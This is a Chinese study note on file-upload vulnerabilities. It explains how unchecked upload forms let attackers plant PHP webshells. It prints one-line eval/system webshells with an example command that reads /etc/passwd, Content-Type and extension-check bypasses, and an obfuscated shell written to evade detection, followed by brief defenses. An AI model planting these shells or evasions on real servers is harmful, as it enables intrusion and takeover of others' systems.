 ```yaml
---
title: Security-2
description: 文件上传漏洞
---
```


## 前言

本文是观看[此视频](https://www.bilibili.com/video/BV1g4411Y7Y4/)时的笔记

## 原理

如果有一些表单需要上传文件到服务器，并且服务器没做文件校验，就可以利用此能力向服务器植入木马

> 比如：假设服务器基于 PHP，如果我们成功上传了一个 PHP 文件到服务器，并拿到了它的路径，我们就可以访问这个路径，从而触发 PHP 脚本的执行

## WebShell

- 概念
  - 小马：一句话木马，整个 shell 代码量只有一行，一般是系统执行函数
  - 大马：代码量多，通常会进行二次编码加密
- 权限
  - 拿到 WebShell 之后，相当于从 PHP 执行各种命令，所以执行命令的用户为 Web 服务器的用户（比如`Apache`）

```php
# 使用PHP中的 `eval` 函数，可以执行PHP代码
<?php eval($_REQUEST['cmd']);?>
# 示例：curl xxx.php?cmd=phpinfo();

# 使用PHP中的 `system` 函数，可以使用Linux系统命令
<?php system($REQUEST['cmd']);?>
# 示例：curl xxx.php?cmd=cat /etc/passwd

# 使用中国菜刀之类的C/S架构的工具进行连接
<?php @eval($_POST['chopper']);?>
```

## 绕过简单检测

### Content-Type

如果服务器检测了上传的文件的`Content-Type` Header，可以使用 BurpSuite 进行绕过

BurpSuite 可以启动一个正向代理，可以修改请求内容

### 后缀名检测

如果服务器使用了后缀名检测，可以使用图片编辑工具，比如`edjpgcom`，可以在正常的图片中嵌入代码。或者用`copy`之类的命令编辑图片文件

嵌入代码后的图片仍然是图片，所以不会被服务器执行。但是使用【本地文件包含/LFI】就可以使服务器执行此文件，实现挂马

> 文件不要太大

### 文件内容检测

有些操作系统（比如 Windows）会自动扫描文件内容，识别木马特征。

通过拆分关键字、编码、加密等方式，可能可以绕过这些检测。

比如把上文的一句话木马改成：

```php
<?php
$a = substr_replace('evxx','al',1);
$b = [''=>$a($_POST['chopper'])];
?>
```

## 防护

- 使用专业 WAF 过滤请求
- 增强服务器中的请求校验
- `grep`查文件内容
